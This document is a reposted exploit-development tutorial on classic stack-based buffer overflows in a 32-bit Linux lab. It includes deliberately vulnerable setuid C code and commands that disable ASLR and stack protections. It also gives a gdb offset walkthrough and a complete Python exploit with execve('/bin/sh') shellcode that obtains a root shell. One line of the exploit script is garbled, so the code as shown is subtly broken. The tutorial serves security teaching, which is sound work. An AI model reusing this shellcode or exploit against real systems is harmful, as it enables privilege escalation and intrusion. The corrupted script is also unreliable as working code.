

# Reference

[//]: <> (文章所涉及到的技术点的链接)

https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/

<!--MD5(Classic Stack Based Buffer Overflow) = 	6fc7c7bb63994ad04f29ad45c03bba1f-->

# Title

[//]: <> (题目)

Classic Stack Based Buffer Overflow

# Content

[//]: <> (内容)

VM Setup: Ubuntu 12.04 (x86)

This post is the most simplest of the exploit development tutorial series and in the internet you can already find many articles about it. Despite its abundance and familiarity, I prefer to write my own blog post for it, since it would serve as a prerequisite for many of my future posts!!

## What is Buffer Overflow?

Copying source buffer into destination buffer could result in overflow when
1. Source string length is greater than destination string length.
2. No size check is performed.

There are two types of buffer overflow:

1. Stack Based Buffer Overflow – Here the destination buffer resides in stack
2. Heap Based Buffer Overflow – Here the destination buffer resides in heap

Here in this post, I will talk only about stack based buffer overflow. Heap overflows will be discussed in ‘Level 3’ of [Linux (x86) Exploit Development Tutorial Series!!](https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/)

Buffer overflow bugs lead to arbitrary code execution!!

## What is arbitrary code execution?

Arbitrary code execution allows attacker to execute his code inorder to gain control of the victim machine. Gaining control of victim machine is achieved using many ways like spawning a root shell, adding a new user, opening a network port etc…

Sounds interesting, enough of definitions lets look into a buffer overflow vulnerable code!!

Vulnerable Code:
```C
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```

Compilation Commands:
```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

Line [2] of the above vulnerable program shows us that a buffer overflow bug exists. And this bug could lead to arbitrary code execution since source buffer contents are user provided input!!

## How arbitrary code execution is achieved?

Arbitrary code execution is achieved using a technique called “```Return Address Overwrite```“. This technique helps the attacker to overwrite the ‘return address’ located in stack and this overwrite would lead to arbitrary code execution.

Before looking into the exploit code, for better understanding, lets disassemble and draw the stack layout for vulnerable code!!

```
(gdb) disassemble main
Dump of assembler code for function main:
   //Function Prologue
   0x08048414 <+0>:	push   %ebp                      //backup caller's ebp
   0x08048415 <+1>:	mov    %esp,%ebp                 //set callee's ebp to esp

   0x08048417 <+3>:	and    $0xfffffff0,%esp          //stack alignment
   0x0804841a <+6>:	sub    $0x110,%esp               //stack space for local variables
   0x08048420 <+12>:	mov    0xc(%ebp),%eax            //eax = argv
   0x08048423 <+15>:	add    $0x4,%eax                 //eax = &argv[1]
   0x08048426 <+18>:	mov    (%eax),%eax               //eax = argv[1]
   0x08048428 <+20>:	mov    %eax,0x4(%esp)            //strcpy arg2 
   0x0804842c <+24>:	lea    0x10(%esp),%eax           //eax = 'buf' 
   0x08048430 <+28>:	mov    %eax,(%esp)               //strcpy arg1
   0x08048433 <+31>:	call   0x8048330 <strcpy@plt>    //call strcpy
   0x08048438 <+36>:	mov    $0x8048530,%eax           //eax = format str "Input:%s\n"
   0x0804843d <+41>:	lea    0x10(%esp),%edx           //edx = buf
   0x08048441 <+45>:	mov    %edx,0x4(%esp)            //printf arg2
   0x08048445 <+49>:	mov    %eax,(%esp)               //printf arg1
   0x08048448 <+52>:	call   0x8048320 <printf@plt>    //call printf
   0x0804844d <+57>:	mov    $0x0,%eax                 //return value 0

   //Function Epilogue
   0x08048452 <+62>:	leave                            //mov ebp, esp; pop ebp; 
   0x08048453 <+63>:	ret                              //return
End of assembler dump.
(gdb)
```

Stack Layout:

<div align=center></div>

As we already know user input of size greater than 256 would overflow the destination buffer and overwrite the return address stored in stack. Lets test it out by sending a series of “A”‘s .

## Test Step 1: Is Return Address Overwrite possible?
```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
Above output shows that Instruction Pointer Register (EIP) is overwritten with “AAAA” and this confirms return address overwrite is possible!!

## Test Step 2: What is the offset from Destination Buffer?

Here lets find out at what offset return address is located from destination buffer ‘buf’. Having disassembled and drawn the stack layout for main(), lets now try to find offset location information!! Stack Layout shows that return address is located at offset (0x10c) from destination buffer ‘buf’. 0x10c is calculated as follows:
```
0x10c = 0x100 + 0x8 + 0x4
```
where
```
0x100 is ‘buf’ size
0x8 is alignment space
0x4 is caller’s EBP
```

Thus user input of form “A” * 268 + “B” * 4, overwrites ‘buf’, alignment space and caller’s EBP with “A”‘s and return address with “BBBB”.
```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

Above output shows that attacker gets control over return address. Return address located at stack location (0xbffff1fc) is overwritten with “BBBB”. With these informations, lets write an exploit program to achieve arbitrary code execution.

Exploit Code:
```
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       
              
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",numnk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode

print "Calling vulnerable program"
call(["./vuln", buf])
```

Executing above exploit program gives us root shell as shown below:
```
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���

# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
NOTE: Inorder to get this root shell, we turned off many exploit mitigation techniques. Infact for all the posts in level 1, I have disabled these exploit mitigation techniques, since the objective of level 1, is to introduce you to vulnerabilities. And  real fun happens when we get to “Level 2” of [Linux (x86) Exploit Development Tutorial Series](https://sploitfun.wordpress.com/2015/06/26/linux-x86-exploit-development-tutorial-series/), where I will talk about bypassing these exploit mitigation techniques!!!